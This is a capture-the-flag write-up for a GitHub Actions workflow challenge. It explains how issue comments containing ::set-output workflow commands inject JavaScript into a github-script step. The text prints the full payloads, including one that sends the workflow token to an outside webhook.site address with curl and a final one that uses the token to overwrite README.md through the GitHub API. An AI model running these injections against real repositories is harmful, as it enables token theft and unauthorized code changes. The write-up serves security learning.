


## Introduction

"A call to hacktion, a GitHub workflow CTF" is a single level challenge based around GitHub Workflow best practices and an interesting vulnerability pattern that GitHub Security teams have seen out in the real world.

To solve the game, you will have to elevate your privileges from read-only to full write access on a designated game repository!

## My Process

Okay, so we know that this challenge resolves around the GitHub Workflow, the vulnerability is probably in the workflow file.

#### Content of **comment-logger.yml**:

```yaml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

As it was my first time working with GitHub workflow, I needed to understand how GitHub workflow works. I googled the workflow syntax for github actions to understand the workflow configuration. 

Link: https://docs.github.com/en/actions/reference/workflow-syntax-for-github-actions

After reading the syntax, I realised this this workflow will the process describe in the workflow configuration when there is a new comment on an issue. With that knowledge, I figured that I should create a new issue and play around and see the logs on the workflow.


Then I proceed to make a new commnet under the newly created issue, "test issue". I noticed that an action was ran after my comment, so I clicked on the action and tried to see the log.


So I realised that my comment is a user input that I can control, which may or may not be the vulnerability. As this is my only lead, I went ahead and googled more GitHub actions workflow releated stuff, and I came across a GitHub Security Lab blog post about untrusted input.

Link: https://securitylab.github.com/research/github-actions-untrusted-input

```yaml{3,6,11,14}
- id: comment_log
env:
    COMMENT_BODY: ${{ github.event.comment.body }} // I CAN CONTROL
    COMMENT_ID: ${{ github.event.comment.id }}
    script: |
    console.log(process.env.COMMENT_BODY) // MY INPUT, CAN I INJECT CODE HERE?
    return process.env.COMMENT_ID
    result-encoding: string

- id: comment_process
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
with:
    script: |
    const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
    return ""
    result-encoding: string
```

Looking at the workflow file again, I see that my input (*comment_body*), is flows to `console.log(process.env.COMMENT_BODY)`. My first initial thought is that I could potential inject javascript code here. To test my theory, I tried inputing quotes, `'` and `"` to see if there is any error generated. 

And did it work? Of course that didn't work, it would have been too easy if it did. Afterwards, I thought to try out some of the steps written in the GitHub Security Lab blog post about untrusted input. I tried template injection, but that didn't work as there is no template here.

Sadly, I was stuck here for a long time, just spamming and hoping for an error to pop out. I decided to continue googling GitHub actions/workflow, to see if I could find anything of interest. 

Which somehow, I did. I found out that there is something called "workflow command", not sure what that is, I read the website and noticed that a workflow command was passed in a `console.log`. I tried doing the same thing just to see what will happen.

Link: https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions

My input: `::save-state name=processID::12345`. This workflow command create environment variables named STATE_processID with the value of 12345. I thought that this command could modify the COMMAND_ID, so I replace "processID" with "COMMAND_ID". Spoiler alert, it didn't. Why not? That's because this command created an enviroment variable and prepend "STATE_".

```yaml
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
```

Back to the workflow file again, I noticed that if I wanted the next step to run, the commet_log needed to output the COMMENT_ID, right? Note: *Not really, `steps.comment_log.outputs.COMMENT_ID` is actually just the value of the output from the comment_log step.*

With that, I'm going to skip my painstaking redundant effort to try to get "COMMNET_BODY" to be the value of "COMMENT_ID".

Now, another workflow command is `::set-output name=action_fruit::strawberry`. This workflow command set the value output of "action_fruit" to "strawberry". Understanding this command, I tried to set the output value of commnet_log, "COMMNET_ID" to "true" after learning that expression in the `if` statement will be evaluated as an expression. 

My input: `::set-output name=COMMENT_ID::true`. Finally, I started to see progress. Quickly, I know that command injection is possible, as this input is treated as an expression as part of the variable declaration.

```javascript
const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
```


Time to print out the enviroment variables, which contains the GITHUB TOKEN for READ/WRITE access according to the GitHub workflow documentation. My input: `::set-output name=COMMENT_ID::true ;console.log(process.env);`.



However, the GitHub token is masked, therefore we cannot just see it. Also, later on, I would realised the the token is only valid while the action is being run. Therefore, even if I could copy and token, it would be useless later.

I then used some website to recieve request, thinking that I could append the token as part of the URL, just to validate the token exists. My input: `::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync('curl https://webhook.site/REDACTED?token=' + process.env["INPUT_GITHUB-TOKEN"]);`. I did the same for "ACTIONS_RUNTIME_TOKEN".

After verifying that the token exists, all I had to do is to make a request using GitHub API with the token to commit to the "README.md" file. I spent quite a few time researching the API but the solution is below.

## My Solution

``::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync(`curl -i --request PUT --url https://api.github.com/repos/${process.env.GITHUB_REPOSITORY}/contents/README.md --header 'authorization: Bearer ${process.env["INPUT_GITHUB-TOKEN"]}' --header 'content-type: application/json' --data '{ "message": "PWNED!!!!", "content": "V2UgYXJlIGluY3JlZGlibHkgc2VjdXJlISBCdXQgaWYgeW91IGRpc2FncmVlLCBwbGVhc2UgZmlsZSBhIFBSIDopCk5PUEUsIEkgRElTQUdSRUVFRSEh", "sha": "959c46eb0fbab9ab5b5bfb279ab6d70f720d1207" }' --fail`);``



## Results

GitHub Capture the Flag results: https://github.blog/2021-03-22-github-ctf-results/

Note: *The results website shows a different step taken to solve this challenge, go ahead and read it as I think it's nicer and cleaner solution overall compared to mine.*